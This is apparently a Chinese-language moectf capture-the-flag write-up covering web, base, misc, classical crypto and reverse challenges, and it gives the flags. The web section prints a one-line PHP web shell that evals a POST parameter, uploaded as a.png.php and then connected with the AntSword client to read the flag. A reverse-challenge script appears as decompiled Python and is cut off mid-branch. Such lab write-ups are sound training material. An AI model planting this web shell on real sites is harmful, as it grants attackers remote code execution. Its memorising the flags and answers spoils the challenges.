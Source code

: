 所以构建`a.png.php`

```php
<?php
	eval(@$_POST['password']);
?>
```

上传到`/var/www/html/uploads/a.png.php`，但实际上对应的网址是`http://xxx.xxx.xxx/uploads/a.png.php`

之后使用中国蚁剑链接，在根目录下找到flag`moectf{hmmm_improper_filter_ETZzkuWbtpEvHgwPhbdIlaP6TSSNrHE7}`



## Base

### 1.CCCCC

打开Dev-cpp运行一下

### 2.Python

python运行一下

### 3.runme

cmd/powershell直接调用 `.\runme.exe`

## Misc

### 1.入门

观察得base64加密，遂解密

```
moectf{h@v3_fun_@t_m15c_!}
```

## CLassical Crypto

### 1.ezrot

rot47加密，在线解密即可

## Reverse

### 2.base_64

首先进行pyc反编译

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 3.7

import base64
from string import *
str1 = 'yD9oB3Inv3YAB19YynIuJnUaAGB0um0='
string1 = 'ZYXWVUTSRQPONMLKJIHGFEDCBAzyxwvutsrqponmlkjihgfedcba0123456789+/'
string2 = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
flag = input('welcome to moectf\ninput your flag and I wiil check it:')
enc_flag = base64.b64encode(flag.encode()).decode()
enc_flag = enc_flag.translate(str.maketrans(string2, string1))
if enc_flag == str1:
    print('good job!!!!')
else:
```